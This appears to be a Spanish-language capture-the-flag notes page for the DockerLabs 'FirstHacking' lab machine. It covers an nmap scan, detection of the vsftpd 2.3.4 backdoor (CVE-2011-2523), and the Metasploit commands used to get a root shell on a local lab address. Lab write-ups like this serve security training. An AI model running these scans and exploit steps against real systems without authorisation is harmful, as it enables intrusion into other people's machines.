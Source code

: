 Machine name: First haking
plataforma: https://dockerlabs.es/#/
Dificultad: Muy facil
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw

Herramientas:
- [[Ping]]
- [[NMAP]]
- [[Metasploit]]


![[Dockerlabs - FirstHacking - Firsthacking machine.png]]
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```


![[Dockerlabs - FirstHacking - Despliegue.png]]
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```

![[Dockerlabs - FirstHacking - Ping para ver conectividad.png]]
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmpa reconocimiento.png]]

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```

![[Dockerlabs - FirstHacking - Nmap con exploit al puerto 21.png]]
tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```

![[Dockerlabs - FirstHacking - Metasploit encontrando el sploit.png]]


metaesploit configuramos el IP destino:
![[Dockerlabs - FirstHacking - Metaesploit configuracion de la IP del host.png]]m


Una vez configurado el metasploit lanzamos run para lanzar el ataque
![[Dockerlabs - FirstHacking - Correr metaesploit.png]]
conseguimos acceso con el usuario root:

![[Dockerlabs - FirstHacking - Usuario Root.png]]